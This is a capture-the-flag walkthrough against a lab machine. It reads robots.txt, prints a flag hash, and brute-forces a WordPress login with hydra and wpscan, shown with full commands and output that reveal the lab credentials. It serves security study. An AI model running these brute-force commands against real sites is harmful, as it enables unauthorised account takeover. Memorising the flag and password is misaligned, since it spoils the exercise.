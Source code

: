 Ok! What We found from the scan.
1. robots.txt
2. /admin/index.html
3. /admin/index.php
4. /wp-login/
5. /wordpress/
6. /wp-admin/wp-login.php
7. /blog/wp-login.php
8. /wp-login.php

Let's open the website in our web browser by navigating to __192.168.1.1__.
We will find that we can run __six__ commands.
__Having FUN!!__, let's navigate to __http://192.168.1.1/robots.txt__

```console
User-agent: *
fsocity.dic
key-1-of-3.txt
```
Cool!! First the key! Navigate to __http://192.168.1.1/key-1-of-3.txt__

## Flag 1:
```console
073403c8a58a1f80d943455fb30724b9
```

Let's go ahead and navigate to __http://192.168.1.1/fsocity.dic__, and save the file in our local machine.
```console
root@kali:~# wc -l fsocity.dic
858160 fsocity.dic
root@kali:~# sort -u fsocity.dic | wc -l
11451
root@kali:~# sort -u fsocity.dic > fsocity_sorted.dic
root@kali:~# sort -u fsocity_sorted.dic | wc -l
11451
```

Now we will use __hydra__, a online password cracker.

First we Brute Force the __username__ with password __test__.
```console
hydra -L fsocity_sorted.dic -p test 192.168.1.1 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.1.1%2Fwp-admin%2F&testcookie=1:Invalid username" -t 50 -f -V
```
```console
[ATTEMPT] target 192.168.1.1 - login "encrypted" - pass "test" - 5522 of 11452 [child 18] (0/0)
[80][http-post-form] host: 192.168.1.1   login: elliot   password: test
[STATUS] attack finished for 192.168.1.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-02-18 22:54:26
```
We can see that we got a username "elliot". Let's Brute force the password for this user
```console
wpscan --log --batch --url 10.0.2.7 --wordlist ${PWD}/fsocity_sorted.dic --username elliot --threads 20
```
```console
[+] Enumerating plugins from passive detection ...
[+] No plugins found passively
[+] Starting the password brute forcer
  [+] [SUCCESS] Login : elliot Password : ER28-0652                             

  Brute Forcing 'elliot' Time: 00:04:58 < > (5633 / 11452) 49.18%  ETA: 00:05:09
  +----+--------+------+-----------+
  | ID | Login  | Name | Password  |
  +----+--------+------+-----------+
```
